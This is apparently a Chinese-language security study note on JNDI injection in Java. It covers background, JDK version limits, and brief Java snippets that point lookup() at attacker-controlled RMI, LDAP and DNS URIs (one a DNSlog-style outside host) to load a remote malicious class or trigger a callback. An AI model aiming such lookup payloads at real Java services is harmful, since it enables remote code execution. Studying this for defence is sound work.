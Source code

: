 # 2-邂逅各种注入

**邂逅 —— 「雨伞倾斜的第二次偶然」**

## 1. jndi注入

示例代码见 https://github.com/Rain1er/security_db/tree/main/Java_relevant/code/jndi

### 1.1 背景知识

> The **Java Naming and Directory Interface** (**JNDI**) is a Java [API](https://en.wikipedia.org/wiki/Application_programming_interface) for a [directory service](https://en.wikipedia.org/wiki/Directory_service) that allows Java software clients to discover and look up data and resources (in the form of Java [objects](https://en.wikipedia.org/wiki/Object_(computer_science))) via a name. Like all [Java](https://en.wikipedia.org/wiki/Java_(programming_language)) APIs that interface with host systems, JNDI is independent of the underlying implementation.

简单来说，JNDI 就像Java里的“电话簿”，让你可以通过名字找到各种资源（如Java对象、数据库、EJB、消息队列等）和各种目录服务如LDAP、DNS、RMI Registry等），无论它们是在本地还是远程服务器上。

这里主要记录LADP、RMI、DNS 协议的攻击。

* **版本限制** 

JDK 6u141、7u131、8u121之后：增加了`com.sun.jndi.rmi.object.trustURLCodebase`选项，默认为`false`，禁止RMI和CORBA协议使用远程codebase的选项，因此RMI和CORBA在以上的JDK版本上已经无法触发该漏洞，但依然可以通过指定URI为LDAP协议来进行JNDI注入攻击。

JDK 6u211、7u201、8u191之后：增加了`com.sun.jndi.ldap.object.trustURLCodebase`选项，默认为`false`，禁止LDAP协议使用远程codebase的选项，把LDAP协议的攻击途径也给禁了。

<img src="https://cdn.jsdelivr.net/gh/Rain1er/images@main/img/20200419225882.png" alt="image.png" style="zoom:50%;" />



## 1.2 利用手法

> 当开发者在定义 JNDI 接口初始化时，lookup() 方法的参数可控，攻击者就可以将恶意的 url 传入参数远程加载恶意载荷，造成注入攻击。

最初公开于BlackHat 2016（USA）

https://www.blackhat.com/docs/us-16/materials/us-16-Munoz-A-Journey-From-JNDI-LDAP-Manipulation-To-RCE.pdf



### 1.2.1 利用RMI协议注入

> `Remote Method Invocation` JAVA 远程方法协议，该协议用于远程调用应用程序编程接口，使客户机上运行的程序可以调用远程服务器上的对象

```java
String uri = "rmi://127.0.0.1:1099/Exploit";    // 指定查找的对象,传入攻击者可控的RMIServer,其中包含恶意类
InitialContext initialContext = new InitialContext();// 得到初始目录环境的一个引用
initialContext.lookup(uri); // 获取指定的远程对象
```



### 1.2.2 利用LDAP协议注入

>  `Lightweight Directory Access Protocol` 轻量级目录访问协议，约定了 Client 与 Server 之间的信息交互格式、使用的端口号、认证方式等内容

```java
InitialContext initialContext = new InitialContext();
initialContext.lookup("ldap://127.0.0.1:7777/Exp");
```



### 1.2.3 利用DNS协议注入

```java
InitialContext initialContext = new InitialContext();
initialContext.lookup("dns://c17208f0.log.cdncache.rr.nu.");    // 关闭clash的tun模式
```





## 1.3 原理分析 & 高版本的绕过

todo


